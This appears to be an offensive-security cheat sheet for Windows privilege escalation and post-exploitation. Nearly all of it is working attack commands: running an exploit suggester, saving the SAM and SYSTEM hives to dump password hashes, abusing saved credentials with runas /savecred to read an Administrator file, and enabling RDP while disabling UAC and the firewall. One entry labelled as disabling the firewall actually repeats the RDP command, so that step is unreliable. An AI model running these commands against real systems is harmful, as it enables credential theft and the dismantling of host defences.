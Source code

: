 Windows Exploit Suggester:
```vb
$ systeminfo > sys.info                                 # get sysinfo from Windows
root@kali: python windows-exploit-suggester.py -u       # update exploit suggester
root@kali: python windows-exploit-suggester -d <databasefile> -i <sysinfofile>
```
    
Find Running Services:
```
$ sc query state=all
```

Dump passwords / hardcoded credentials:
```powershell
# Password hashes
$ reg.exe save hklm\sam c:\sam_backup
$ reg.exe save hklm\security c:\security_backup
$ reg.exe save hklm\system c:\system

# User password
$ type C:\Users\[username]\NTUSER.dat

# WebDAV passwords
$ /xampp/security/webdav.htpasswd

# Windows hashes
C:\\Windows\SYSTEM32\CONFIG
```
    
Cached Credentials:
```powershell
# CMDKEY: https://ss64.com/nt/cmdkey.html
$ cmdkey /list      
    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator

# RUNAS: https://ss64.com/nt/runas.html
$ runas /savecred /User:ACCESS\Administrator "cmd.exe /C type C:\Users\Administrator\Desktop\root.txt>C:\Users\noob\out.txt"
```

Tweak security:
```powershell
# Allow RDP
$ reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Disable UAC
$ reg enumkey -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\policies\\system
$ reg setval -v EnableLUA -d 0 -t REG_DWORD -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\policies\\system

# Refresh policies
$ gpupdate /force

# Disable firewall 1
$ reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# Disable firewall 2 - newer Windows versions
$ netsh Advfirewall set allprofiles state off
# Disable firewall 3 - older Windows versions
$ netsh firewall set opmode disable
```
